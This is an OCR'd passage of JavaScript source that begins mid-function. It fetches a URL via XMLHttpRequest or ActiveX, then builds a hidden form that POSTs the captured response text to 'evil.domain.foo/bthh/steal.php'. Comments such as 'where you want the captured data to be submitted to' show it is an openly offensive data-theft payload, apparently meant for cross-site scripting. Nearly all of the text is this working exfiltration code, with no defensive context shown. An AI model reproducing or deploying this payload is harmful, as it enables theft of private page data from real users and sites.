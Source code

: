             }

            else if(window.ActiveXObject)
            {
                    try
                    {
                            req = new ActiveXObject("Msxml2.XMLHTTP");
                    }
                    catch(e)
                    {
                            try
                            {
                                    req = new ActiveXObject("Microsoft.XMLHTTP");
                            }
                            catch(e)
                            {
                                    req = false;
                            }
                    }
            }
            if(req)
            {
                    req.onreadystatechange = processReqChange;
                    req.open("GET", url, true);
                    req.send("");
            }
    }
    // end of loadXMLDoc(url)

    function processReqChange()
    {
            // only if req shows "loaded"
            if (req.readyState == 4)
            {
                    // only if "OK"
                    if (req.status == 200)
                    {
                            // ...processing statements go here...
                            //alert(escape(req.responseText));

                            var f=document.createElement("form");
                            f.name="myform";
                            // where you want the captured data to be submitted to
                            f.action="http://evil.domain.foo/bthh/steal.php";
                            // POST is handy for submitting large chuncks of data
                            f.method="POST";
                            var t = document.createElement('INPUT');
                            t.type='hidden';
                            t.name='data';
                            t.value=escape(req.responseText);
                            f.appendChild(t);
                            document.body.appendChild(f);
                            f.submit();
                    }
            }
    }
